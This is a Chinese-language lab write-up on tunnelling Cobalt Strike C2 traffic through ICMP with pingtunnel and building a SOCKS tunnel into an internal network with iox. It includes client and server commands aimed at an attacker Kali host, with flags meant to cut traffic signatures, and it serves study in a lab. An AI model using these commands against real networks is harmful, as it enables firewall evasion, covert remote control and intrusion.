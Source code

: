 # 隧道技术 icmp dns
# icmp
![1732452050196](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942043.png)
## icmp
出网：看之间是否能通讯

​	c2常见的协议
## icmp
隧道技术：绕过防火墙，实现通讯能够上线

出网就是出站----防火墙

  配置
## icmp
将出站规则都开启，执行后面没有上线

![1732461696691](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942044.png)

将出站规则关闭：

![1732461815088](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942045.png)

打开icmp通讯：192.168.139.128为kali地址,与web机在同一个网段------------此时web防火墙入站和出站是开着。这里都是随便ping 只要能互相通信就行

![1732462308609](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942046.png)

关闭icmp协议: 

![1732462439111](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942047.png)

这里的环境复现是：其中kali的ip  192.168.139.128       web :192.168.139.222       192.168.2.11

![1732523729550](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942048.png)

  上线  使用工具 pingtunnel

./pingtunnel -type server

工具将本地tcp流量用自己的6666端口流量转发到192.168.139.141:7777 上面（将tcp流量封装成icmp转发）

pingtunnel -type client -l :6666 -s 192.168.139.141 -t 192.168.139.141:7777 -tcp 1 -noprint 1 -nolog 1   后门生成绑定6666，上线监听7777，上线找7777。			这个工具就是封装作用  （ 1 -noprint 1 -nolog 1  就是减少流量特征的，不打印信息）

下面本应该是在webshell页面执行，但为了省事，就直接在目标机web上进行操作：

上传工具pingtunnel，然后在能和目标机通讯的机器上 ，（这里是kali）创建一个监听：

![1732524394790](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942049.png)

执行转发命令-----前面几次没有成功是因为web机的出站icmp没有开：、

![1732525019259](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942050.png)

成功接收到：

![1732524956671](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942051.png)

生成2个监听器：1 、2

![1732525288157](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942052.png)

下面生成exe、要选择stageless的，如果选择（E）上面的那个模式，无法上线（踩坑）：这里exe的监听器为1

![1732526027873](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942053.png)

执行66666.exe则就反射到本地6666来上线，而6666又经过一系列的转发成icmp到7777才出去，2监听器监听7777成功收到web机请求上线。

![1732526222224](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942054.png)

然后用wireshark监听流量发现，web机过来的全部是icmp协议的数据包（http----->icmp封装成功）：

![1732526418330](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942055.png)

隧道一关闭、cs就掉线：

![1732526561513](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942056.png)

### dns

  使用DNS技术实现上线----使用C2自带工具。 关闭icmp通讯出站。打开dns出站规则。这里上线需要一个dns的域名网站来上线dns的exe，这就是dns协议实现上线

关闭icmp出站协议，打开dns协议

![1732526830482](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942058.png)

下面还是本应该在webshell操作。我懒的上线get，就直接在主机上演示：

这里还得需要一个dns的域名。省略这个

### msb

  MSF icmp实现上线。msf的dns过时，已下架。

   smb开放着，利用smb进行通讯，为入站规则

![1732529462918](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942059.png)

可以通过smb来正向连接来获取权限。这里属于横向移动知识点，后期在学

### 内网穿透:

   这里的状况（防火墙策略）是 web机器是只让web进，icmp出。隧道技术就是有一些放的口子（有一些出站的规则），这种一般都是内网穿透。演示一款工具：iox       pingtunnel                                                                                                   2222->4455->5566                   pingtunnel -type client -l 127.0.0.1:2222 -s 192.168.139.128 -t 192.168.139.128:4455 -tcp 1 -noprint 1 -nolog 1 -key 000000           （这里的key是防止别人也连接到你打pingtunnel，所以有一个key）    192.168.139.141为kali   127.0.0.1web机器，因为web机的防火墙策略。所以这里命令就是将web机的2222端口的tcp协议的流量封装成icmp协议给发送到192.168.139.141:4455（kali的4455端口），在kali(攻击机)./pingtunnel -type server -noprint 1 -nolog 1 -key 000000接收目标发过来的icmp流量数据，然后因为是发到自己的4455端口，所以./iox proxy -l 4455 -l 5566  用iox代理工具将4455转至5566端口。在web机上还要建立SockS节点绑定2222端口----相当于创建一个2222端口，他才能将icmp流量数据转发出去：iox.exe proxy -r 127.0.0.1:2222。类似上面的socks端口创建，因为这里目标机的防火墙策略特殊，所以采用这种方法创建socks节点。后面就一样用代理Profiex连接socks，从而实现与目标机通讯。

将web本地2222端口的TCP封装IMCP给能通讯的kali：-----已经将iox和pingtunne上传目标机了

![1732531243372](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942060.png)

接收客户端传递的ICMP：

![1732531600655](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942061.png)

端口转发，创建有socks5协议 ：

![1732531373768](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942062.png)

再在web上开放一个2222端口：

![1732535373473](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942063.png)

最后效果就是在本机能访问到目标主机，之间建立通讯。
